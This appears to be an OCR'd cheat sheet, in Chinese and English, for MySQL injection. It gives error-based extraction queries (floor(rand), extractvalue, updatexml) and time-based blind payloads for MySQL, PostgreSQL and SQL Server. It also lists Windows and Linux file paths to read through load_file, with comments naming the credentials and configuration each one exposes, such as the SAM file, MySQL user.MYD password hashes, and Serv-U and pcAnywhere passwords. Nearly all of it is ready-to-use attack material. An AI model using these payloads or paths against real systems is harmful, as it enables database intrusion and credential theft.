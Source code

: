 # Error-based functions
select count(*), concat_ws(':', database(), floor(rand(0)*2)) a from information_schema.columns group by a;
select count(*) from information_schema.tables group by concat_ws(':', version(), floor(rand(0)*2));
select count(*) from (select 1 union select 2 union select 3) a group by concat_ws(":", @@basedir, floor(rand(0)*2));
select min(@a:=1) from information_schema.tables group by concat_ws(":", version(),@a:=(@a+1)%2);
select * from (select NAME_CONST(version(),1),NAME_CONST(version(),1))x;
select extractvalue(1,concat(":",(select @@version), ":"));
select updatexml(1,concat(":",(select version()),":"),1);
select if(database() regexp '^e', sleep(5), 1);
select if(database() regexp '^sec', benchmark(50000000, encode("msg", "by 5 seconds")), 1);
	| mysql | benchmark(10000, md5(1)), sleep(5) |
	| postgresql | pg_sleep(), generate_series(1, 10000) |
	| ms sql server | wait for delay '0:0:5' |

# MySQL注入load_file常用路径
## WINDOWS下:
c:/boot.ini //查看系统版本
c:/windows/php.ini //php配置信息
c:/windows/my.ini //MYSQL配置文件，记录管理员登陆过的MYSQL用户名和密码
c:/winnt/php.ini
c:/winnt/my.ini
c:\mysql\data\mysql\user.MYD //存储了mysql.user表中的数据库连接密码
c:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini //存储了虚拟主机网站路径和密码
c:\Program Files\Serv-U\ServUDaemon.ini
c:\windows\system32\inetsrv\MetaBase.xml 查看IIS的虚拟主机配置
c:\windows\repair\sam //存储了WINDOWS系统初次安装的密码
c:\Program Files\ Serv-U\ServUAdmin.exe //6.0版本以前的serv-u管理员密码存储于此
c:\Program Files\RhinoSoft.com\ServUDaemon.exe
C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere\*.cif文件 //存储了pcAnywhere的登陆密码
c:\Program Files\Apache Group\Apache\conf\httpd.conf 或C:\apache\conf\httpd.conf //查看WINDOWS系统apache文件
c:/Resin-3.0.14/conf/resin.conf //查看jsp开发的网站 resin文件配置信息.
c:/Resin/conf/resin.conf /usr/local/resin/conf/resin.conf 查看linux系统配置的JSP虚拟主机
d:\APACHE\Apache2\conf\httpd.conf
C:\Program Files\mysql\my.ini
C:\mysql\data\mysql\user.MYD 存在MYSQL系统中的用户密码
## LINUX/UNIX 下:
/usr/local/app/apache2/conf/httpd.conf //apache2缺省配置文件
/usr/local/apache2/conf/httpd.conf
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置
/usr/local/app/php5/lib/php.ini //PHP相关设置
/etc/sysconfig/iptables //从中得到防火墙规则策略
/etc/httpd/conf/httpd.conf // apache配置文件
/etc/rsyncd.conf //同步程序配置文件
/etc/my.cnf //mysql的配置文件
/etc/redhat-release //系统版本
/etc/issue
/etc/issue.net
/usr/local/app/php5/lib/php.ini //PHP相关设置
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置
/etc/httpd/conf/httpd.conf或/usr/local/apche/conf/httpd.conf 查看linux APACHE虚拟主机配置文件
/usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看